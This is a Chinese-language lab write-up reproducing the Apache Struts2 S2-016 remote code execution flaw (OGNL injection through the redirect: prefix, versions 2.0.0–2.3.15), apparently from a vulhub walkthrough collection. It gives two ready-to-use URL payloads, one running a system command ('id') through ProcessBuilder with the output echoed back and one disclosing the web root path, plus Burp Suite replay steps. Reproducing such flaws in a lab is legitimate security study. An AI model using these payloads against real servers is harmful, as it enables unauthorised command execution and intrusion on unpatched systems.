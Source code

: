 # Struts2_016_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行--->有回显

### 0x01漏洞介绍

​		Struts2 是第二代基于Model-View-Controller (MVC)模型的java企业级web应用框架。它是WebWork和Struts社区合并后的产物。Apache Struts2的action:、redirect:和redirectAction:前缀参数在实现其功能的过程中使用了Ognl表达式，并将用户通过URL提交的内容拼接入Ognl表达式中，从而造成攻击者可以通过构造恶意URL来执行任意Java代码，进而可执行任意命令。redirect:和redirectAction:此两项前缀为Struts默认开启功能，目前Struts 2.3.15.1以下版本均存在此漏洞。

​			影响版本

  		2.0.0 - 2.3.15

### 0x02漏洞复现

#### payload1(RCE)：

?redirect:${%23a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{'**id**‘)).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b),%23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}

（需要对payload进行url完全编码）

#### payload2(web路径):

redirect%3A%24%7B%23req%3D%23context.get('co'%2B'm.open'%2B'symphony.xwo'%2B'rk2.disp'%2B'atcher.HttpSer'%2B'vletReq'%2B'uest')%2C%23resp%3D%23context.get('co'%2B'm.open'%2B'symphony.xwo'%2B'rk2.disp'%2B'atcher.HttpSer'%2B'vletRes'%2B'ponse')%2C%23resp.setCharacterEncoding('UTF-8')%2C%23ot%3D%23resp.getWriter%20()%2C%23ot.print('web')%2C%23ot.print('path%3A')%2C%23ot.print(%23req.getSession().getServletContext().getRealPath('%2F'))%2C%23ot.flush()%2C%23ot.close()%7D

（需要对payload进行url完全编码）

​			**登录界面**

![S2_016_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_016_rce_1.jpg)

​			**Burpsuite改包重放，有回显，发现id被执行**

![S2_016_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_016_rce_2.jpg)

​				**Burpsuite改包重放，发现web路径被爆出**

![S2_016_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_016_rce_3.jpg)



### 0x03参考资料

https://blog.csdn.net/qq_29647709/article/details/84950476
